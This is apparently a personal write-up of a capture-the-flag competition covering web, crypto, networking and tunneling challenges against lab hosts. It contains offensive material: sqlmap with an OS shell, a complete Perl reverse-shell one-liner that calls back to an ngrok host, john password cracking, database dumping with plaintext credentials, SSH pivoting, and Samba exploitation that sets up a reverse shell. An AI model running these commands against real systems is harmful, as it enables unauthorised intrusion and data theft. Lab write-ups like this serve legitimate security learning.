

# ctf.threatsims.com - June CTF
This is a summary of the June CTF by threat sims and the highlights worth mentioning. It ran June 27-28th 9AM - 3pm (30 hours).
# BB
## Gain Initial Shell Access
The website provided had only one endpoint with a search box. Seemed SQLi was probably the entry point. Issued a request with burp, exported and used sqlmap to pull everying out of the DB

```bash
sqlmap -i search_request.txt --all --os-shell
```
From there, a packet capture revealed the webshell, which was used to send a reverse shell back to us using the pentest monkey's perl reverse shell. We needed to configure and setup ngrok to failicate this. The alternative approach would be to setup an EC2 instance with a public IP the victim could reach back to e.g. run nc on the EC2 instance to catch the reverse shell.
```bash
# on localhost, launch ngrok and nc to catch the reverse shell
ngrok tcp 9090
nc localhost 9090
```
In browser, issued the following the command to the sqlmap webshell (had to issue it in a browser due to all the escaping required in bash to issue it over curl. Alternativly, if it was URL encoded in burp, it could have been fed into curl command I suppose)
```bash
perl -e 'use Socket;$i="2.tcp.ngrok.io";$p=11960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
At this point, the flag was just in the serving file system, which means we could have curled for it too.
```bash
cat flag.txt

curl -v http://159.203.81.45:8081/flag.txt
```
## Others
One flag was hidden in the db, which just required looking for a high entropy string in the database. I just paged through it and noticed but *should look into an entropy scanner to find these flags since they are random*.

The other flags revolved around privilege escalating to other users on the machine which I was unable to do. Each user had a flag in their home directory that only they would read.
# Crypto
## Something Easy
Searched this hash on google (md5 hash hash-identifier said) and found the flag
## Easy
Convert the binary into ascii online
## Feelz
This is brail and there are decoders online
## Easy Passwords
This is a line from a shadow file. Used john to crack
```bash
john --rules --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 shadow
```
## The Rest
They are captured in the pictures and text files in the directory. Could not solve any of them, but can revisit when time allows.
# FTP
This section was just analyzing pcaps and extracting data from them, exporting FTP'd files, etc
# gym
## Initial Access
The question said (start here) says to find initial access, do not use automated tools, all you need is the page. Dug on the page couldnt find anything. Googled the page name, Gym Management System 1.0 and found an entry on [exploit-db](https://www.exploit-db.com/exploits/48506). Was able to run this as is which results in a basic PGP webshell. Using the ngrok technique discussed in BB.Gain_Initial_Access, the shell was able to be upgraded to a better one with the same perl reverse shell.
## IP Address of the SQL Server
This was found in PHP files defining the mysql connection. This was found by greping around the file system coupled with error messages revealing the location in the `ex` sub directory which was discovered via `gobuster`
## Root Password of SQL Account
In the same file as above
## All the SQL Questions
All the remaining questions revolved around querying data from the database. The commands below were used to answer all the remaining questions.
```bash
mysql -u root -ptoor -h 10.213.12.10 -e 'show databases'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'show tables'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'describe Tables_in_gym'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'describe locations'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'describe login_attempts'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select * from login_attempts ORDER BY time DESC'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select gymlocation from members'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select id,location from locations'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'describe members'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select currentmembership from members'
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE currentmembership = 1 AND gymlocation = 0' --1004
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE currentmembership = 1 AND gymlocation = 1' --1050
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE currentmembership = 1 AND gymlocation = 2' --975
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE currentmembership = 1 AND gymlocation = 3' --1033
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE currentmembership = 1 AND gymlocation = 4' --954
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE gymlocation = 0' --2018
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE gymlocation = 1' --2017
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE gymlocation = 2' --1971
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE gymlocation = 3' --2068
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select COUNT(username) from members WHERE gymlocation = 4' --1926
mysql -D gym -u root -ptoor -h 10.213.12.10 -e 'select * from members where admin = 1'
```
# misc
Couldn't get any here. Some of the questions in the directory, the artifacts have been downloaded so they can be solved at a later date.
# networking
Got all these but 1 (really got it, couldn't figure out how to enter the flag)
## Most
Most are just reading pcap file and answering questions in there. Any outliers occur after this.
## Covert Comms
In this, the capture is a set of pings and there is a covert channel. Paging through the capture, it becomes obvious 1 byte is changing in the ICMP echo request payload at byte 58. This was solved using ngrep
```bash
ngrep -I capture.pcap -X | grep -v ^I | grep -v ^# | awk '{print substr($0, 21,1)}' > op2.txt
```
Then used gedit to replace all newlines with nothing and the flag was revealed.
## Networks
A python program was written to handle this which is in the directory
## DNS
This required pulling down the all the DNS records (all types) associated with a particular domain. This was done with a dig command.
```bash
dig +nocmd threatsims.com any +multiline +noall +answer
```
# programming
Couldn't get any here. Multiple we endpoints that returned just raw text which looked like a game. Didn't reply over HTTP either it seemed, just raw TCP.
# pwn
Couldn't get any here. These were all RE jobs with dropped binaries. Some of the challenges and binaries are in the directory.
# tiger
## Recon 1
Flag left in the source code
## Recon 2
Flag in the robots.txt file
## Showing off the Tigers
Pulling down the image and running `exiftool` on it found the flag in metadata
## Eating Sweets
Using burp, a cookie key, value can be seen being sent on every request which is static. The key is Joe and the value is a base64 encoded string which yields the flag.
##  Browser Check
There is a javascript function which checks the user-agent of the browser looking for an old version of IE. Googling old user-agents and setting them user-agent to that in burp, the script displayed the flag.
## All the Rest
All the request are about using *manual* SQLi. The questions call out not using sqlmap. In the initial testing, it is blind SQLi around the username. SQL errors in the username yeiled a 500 error from the site. Being bad at manual SQLi, especially blind, I did not solve any more of these. 
# tiger-tunes
Did not get any of these. They were a late addition to the CTF and there wasn't enough time (or GaF) this late in the game.
# tunneler
These all revolved around using various tunneling techniques to work your way through a network of hosts.
## Bastion
This is just testing you know how to ssh with a different port
```bash
ssh -p 2222 tunneler@159.203.81.45
```
## Browsing Websites
This one requires using local port forwarding to the desired host.
```ssh
ssh -p 2222 tunneler@159.203.81.45 -L 80:10.174.12.14:80
```
## SSH In Tunnels
This requires a local port forward for SSH to the pivot address and a second SSH login
```bash
# -N -f runs it in the background so we just get the tunnel
# tunnel is set to 2222 so localhost:2222 -> 10.218.176.199:22
ssh -p 2222 tunneler@159.203.81.45 -L 2222:10.218.176.199:22 -N -f
ssh -p 2222 whistler@localhost
```
## Another Pivot
Just another pivot, and keep going. Keeping what was run already (previous quesetions) in terms of tunnels.
```bash
# already have a tunnel to .199, so lay a new tunnel he to the new pivot
ssh -p 2222 whistler@localhost -L 2223:10.112.3.12 -N -f
ssh -p 2223 crease@localhost
```
## Beacons Everywhere
The question gives a port range, but the banner on pivot 1 (.199) indicates a specific port. With some host sending to pivot 1, we want to suck it up, so setting up a remote listening port on pivot 1 will receive this request and tunnel it back to localhost. Open a netcat on the localhost to receive this request.
```bash
nc -nlvp 55555
# reverse -> <REMOTE_PORT>:<NEW_HOST>:<NEW_PORT>
ssh -p 2222 whistler@127.0.0.1 -R 58673:localhost:55555
```
## SNMP
The snmp server is L2 connected to pivot 2, found via `arp -a`. This requires using socat to tunnel on pivot 2 as well as to perform UDP -> TCP and then TCP -> UDP conversions. Initially, I tried using the tunnel directly to pivot 2 (port 2223) however, after reading the banner more closely and running ssh in debug mode (ssh -vvv), I discovered that ssh daemon would not port forward from my tunnel. Therefore, a new tunnel would need to be established to pivot 2 with a forwarding address to the socat listener who would relay the request o the snmp server.
```bash
# create client side socat for UDP -> TCP. Listen on the SNMP UDP port.
socat udp4-listen:161,reuseaddr,fork tcp:localhost:5161

# create a new tunnel to pivot 1 on the selected tcp port 5161
ssh -p 2222 whistler@localhost -L 5161:10.112.3.12:5161

# setup socat server side (pivot 2) to relay to the SNMP server 
socat TCP4-LISTEN:5161,reuseaddr,fork UDP:10.24.13.161:161

# now we can run snmpwalk to get the flag from the public community
snmpwalk -v 2c -c public 127.0.0.1
```
## Beacons Annoying
In this, we need to connect to a host hanging off pivot 1 on a specific port. This is done via setting up a new tunnel to whistle forwarding to the target then opening on the localhost with netcat. One connected, it gives you a random port it will send the flag to on pivot 1 which requires a quick establishment of a remote listening port on that host to receive the flag. The code below assumes all the tunnels constructed earlier are still alive.
```bash
# prep the localhost receiving nc
nc -nlvp 9090

# setup a new tunnel to whistler so we can hit the host on port 7000
ssh -p 2222 whistler@localhost -L 7000:10.112.3.88:7000 -N -f

# initiate the request
nc localhost 7000

# we will receive the port. Have the command preloaded, (or scripted) so we just drop the port in.
# reverse -> <REMOTE_PORT>:<NEW_HOST>:<NEW_PORT>
ssh -p 2222 whistler@127.0.0.1 -R <PO
RT_RECEIVED_VIA_NC>:localhost:9090
```
## Scan Me
In this one, we need to scan a remote host through the tunnel to find the FTP port which is open. This tool a long time for the scan to complete. This required dynamic port forwarding to pivot 1, proxychains and nmap to discover the open port.
```bash
# setup the dynamic tunnel to pivot 1 over port 9050 (proxychain's default)
ssh -p 2222 whistler@localhost -D 9050 -N -f

# run nmap via proxy chains to find the port
proxychains nmap -n -v -sT -p- -T4 10.112.3.207

# once the port is found, lay down a new tunnel to this host for ftp
ssh -p 2222 whistler@localhost -L 21:10.112.3.207:53131

# ftp to the host and flag is in the banner
ftp localhost
```
## Samba
In this, we need to pivot ffromor pivot 2 to the samba server and get access to the file share. The pivot on pivot 2 was setup with socat (remember, no ssh port forwarding allowed on this host) to relay SMB to samba host port 445. Then all analysis was performed on the localhost with the tunnels in place. An open share was discovered with out the flags, taunting to find another way in. Looking at the samba version, it was discovered to be vulnerable to is_known_pipename() which will give us a shell we can use to read the root file system.
```bash
# laydown a new tunnel to pivot 1 pointing to pivot 2 for the tunnel
ssh -p 2222 whistler@localhost -L 445:10.112.3.12:9998

# setup the socat server side to relay to samba host on port 445
socat TCP4-LISTEN:9998,reuseaddr,fork TCP:10.24.13.10:445

# scan the host
smbclient -L //127.0.0.1
nmap -n -v -p445 --script=smb-* --script-args='unsafe=1' 127.0.0.1

# find the vuln based on version
searchsploit samba

# use msf to fire the exploit because were all every lazy. Make sure the tunnels are inplace to receive the reverse shell, e.g. we a remote port on pivot 1 to funnel traffic back to localhost for msf
ssh -p 2222 whistler@localhost -R 5555:localhost:5555

# LHOST = 10.112.3.119 (internal IP of pivot 1)
# LPORT = 5555
```
